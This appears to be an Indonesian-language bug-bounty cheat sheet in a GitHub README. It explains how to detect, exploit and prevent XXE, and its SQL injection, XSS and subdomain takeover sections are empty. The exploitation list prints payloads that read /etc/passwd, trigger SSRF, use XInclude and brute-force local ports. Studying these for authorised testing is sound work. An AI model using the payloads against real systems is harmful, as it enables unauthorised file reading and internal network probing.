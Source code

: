 # VULNERABILITY :bug:

<p align="center"><img src="https://user-images.githubusercontent.com/52058660/89898222-85c0a500-dc0a-11ea-9eca-815238a55a38.jpg" width="500"></p>

Online resource:
- [bugbounty-cheatsheet](https://github.com/EdOverflow/bugbounty-cheatsheet) - by EdOverflow
---

## XXE
Sebelum memahami XXE, kita harus memiliki pengetahuan dasar XML, DTD dan entity. Tools yang digunakan adalah Burpsuite, lebih mantap lagi jika menggunakan Burp Collaborator (*berbayar*).
- **Detection**
  - [Cari](https://christian-schneider.net/GenericXxeDetection.html) aplikasi yang mengirimkan data dalam format XML, disebut juga XML endpoint
  - Intercept web page, lalu cari web yang request header `Content-Type`-nya `text/xml` atau `application/xml`
  - Cari fitur web yang mengunakan XML, seperti RSS, SOAP
  - Cara cepat menemukan XML endpoint adalah automasi
  
- **Exploitation**
  - Retrieve Files. Inject [payload](https://github.com/payloadbox/xxe-injection-payload-list) ke bagian `!DOCTYPE`
    > `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM “file:///etc/passwd”> ]>`
  - Exploiting to perform Server Side Request Forgery (SSRF). Sama seperti cara di atas. Tapi jika sebelumnya menggunakan `file`, untuk exploitasi ini menggunakan `http` dilanjutkan dengan ip server
    > `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM “http://1”> ]>`
  - Jika tidak bisa modifikasi `!DOCTYPE`, gunakan `XInclude` (baca SOAP dan XML namespace)
    > `<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`
  - Test local machine port (gunakan burp intruder). Brute port dari ip local, lalu cek bergantian `http` dan `https`
    > `<!DOCTYPE xxe SYSTEM "http://127.0.0.1:§port§/">`
    > `<!DOCTYPE xxe SYSTEM "https://127.0.0.1:§port§/">`
  - Exploiting [RSS validator](https://taind.wordpress.com/2017/12/25/root-me-xml-external-entity/). Store XML payload ke server, jika tidak punya gunakan [filebin](https://filebin.net/)
    
- **Prevention**
  - Disable DTD
  - Disable entity saja
---
## Subdomain Takeover

---
## SQL Injection

---
## XSS

